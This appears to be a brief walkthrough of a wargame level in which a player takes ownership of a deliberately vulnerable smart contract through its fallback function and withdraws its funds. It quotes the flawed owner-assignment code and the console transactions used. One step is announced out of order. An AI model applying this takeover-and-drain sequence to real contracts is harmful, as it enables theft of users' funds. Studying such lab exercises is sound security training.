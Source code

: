 -The fallback() function contained the lined
`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`
-Understood that if we send ether directly to the contract and we alreadty have a contribution, we can become the owner
`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`
-Completed the level by submitting the instance
